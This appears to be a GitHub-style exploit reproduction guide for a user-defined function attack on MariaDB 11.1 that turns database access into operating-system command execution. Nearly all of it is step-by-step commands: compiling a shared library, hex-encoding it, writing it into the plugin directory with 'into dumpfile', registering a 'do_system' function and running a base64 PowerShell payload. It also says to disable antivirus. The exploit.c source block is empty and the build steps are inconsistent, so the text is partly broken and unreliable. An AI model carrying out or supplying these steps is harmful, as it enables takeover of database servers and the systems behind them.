 

---

# Exploit Reproduction Guide (affected product version MariaDB 11.1)

This guide provides step-by-step instructions to reproduce a User-Defined Function (UDF) attack on a database system. Please note that this exploit may work on some systems, but it might not function correctly on 64-bit architectures or certain builds.

> **Warning:** This is for educational purposes only. Unauthorized use of these techniques is illegal and unethical.

## Steps to Reproduce the Attack

### 1. Download and Prepare the UDF Code

First, create a file named `exploit.c` and add the following code:

```

### 2. Compile the UDF Code

Compile the exploit code using the `x86_64-w64-mingw32-gcc` compiler:

```bash
x86_64-w64-mingw32-gcc -g -c exploit.c
```

### 3. Create a Shared Object File

Generate a shared object file (`exploit.so`) from the compiled object file:

```bash
x86_64-w64-mingw32-gcc -g -shared -Wl,-soname,exploit.so -o exploit.so exploit.o
```

### 4. Convert the Shared Object File to Hexadecimal

Use `xxd` to convert the `.so` file to a hexadecimal format:

```bash
xxd -p exploit.so | tr -d '\n' > hex_value.txt
```

### 5. Load the Hexadecimal Value into the Database

Copy the hexadecimal value from `hex_value.txt` and execute the following command in your database:

```sql
DB> set @shell = 0x<hex_value>;
```

### 6. Determine the Plugin Directory and Deploy the Exploit

Find the plugin directory by running:

```sql
DB> select @@plugin_dir;
```

Then, create the exploit shared object in the plugin directory:

```sql
DB> select binary @shell into dumpfile 'C:\\Program Files\\MariaDB 11.1\\lib\\plugin\\exploit.so';
```

> **Note:** Adjust the path according to your system's configuration or the specific plugin directory.

### 7. Create the Malicious Function

Create a new function in the database using the exploit:

```sql
DB> create function do_system returns integer soname 'exploit.so';
```

### 8. Execute the Exploit

Disable any antivirus or Windows Defender that might block the exploit. Then, run a command using the newly created function:

```sql
DB> select do_system('powershell base64 here');
```

Replace `'powershell base64 here'` with the base64 encoded payload of the command you wish to execute.

---

**Disclaimer:** This document is intended for educational purposes and security research only. Misuse of this information can result in criminal charges and severe legal penalties. Always obtain permission from the relevant authorities before testing any vulnerabilities on a network or system.

